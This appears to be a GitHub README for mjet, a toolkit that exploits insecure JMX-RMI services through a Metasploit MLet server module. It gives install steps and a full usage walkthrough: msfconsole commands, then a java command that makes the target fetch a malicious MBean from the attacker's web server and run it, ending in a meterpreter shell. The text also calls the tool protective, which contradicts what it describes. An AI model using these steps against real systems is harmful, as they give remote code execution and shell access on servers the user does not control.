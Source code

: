 # mjet
Mogwai Java Management Extensions (JMX) Exploitation Toolkit

mjet is a tool that can be used to protect insecure configured JMX services. It is based on
the blog post "Exploiting JMX-RMI" from Braden Thomas/Accuvant "http://www.accuvant.com/blog/exploiting-jmx-rmi" 
and can be used to execute arbitrary Metasploit payloads on the target system.

Mjet was originally planned to be a complete attack toolkit, however we noticed that the Metasploit Github repository contains 
a pull request which will provide basic Java RMI/serialization support in native ruby. This is awesome and removes the Java 
dependency. So we stopped developing this tool  and focus on Metasploit instead.

mjet consists of the following parts:
- A metasploit module which emulates a "mlet Server". This is basically a web server which hosts a html file that contains a mlet tag
- A ManagedBean that is changed by the mlet server module to include the selected payload
- A jar archive that is used to contact the insecure JMX service.


### Installation (with the github version of Metasploit)
- Copy the "MBean" folder to "data/java/metasploit"
- Copy java_mlet_server.rb to "modules/exploits/multi/misc/"

### Usage 

The example uses following systems:
attacker: 192.168.178.1
target: 192.168.178.200, JMX service running on tcp port 1616

- Configure/start the metasploit module "java_mlet_server". The module will run as a background job
```
msf > use exploit/multi/misc/java_mlet_server
msf > set LHOST 192.168.178.1
msf > set SRVHOST 192.168.178.1
msf > set URIPATH /mlet/
msf > run
```

Use mjet.jar to connect to the vulnerable JMX service and provide the URL to the MLet Web server...
```
java -jar mjet.jar -t 192.168.178.200 -p 1616 -u http://192.168.178.1:8080/mlet/
---------------------------------------------------
MJET - Mogwai Security JMX Exploitation Toolkit 0.1
---------------------------------------------------

[+] Connecting to JMX URL: service:jmx:rmi:///jndi/rmi://192.168.178.200:1616/jmxrmi ...
[+] Connected: rmi://192.168.178.164  5
[+] Trying to create MLet bean...
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://192.168.178.1:8080/mlet/
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
[+] Loaded class: metasploit.Metasploit
[+] Loaded MBean Server ID: ptIIirfM:name=BlPwaoHu,id=oWTqfkbE
[+] Invoking: metasploit.Metasploit.run()
[+] Done

```

and enjoy your meterpreter shell :-)

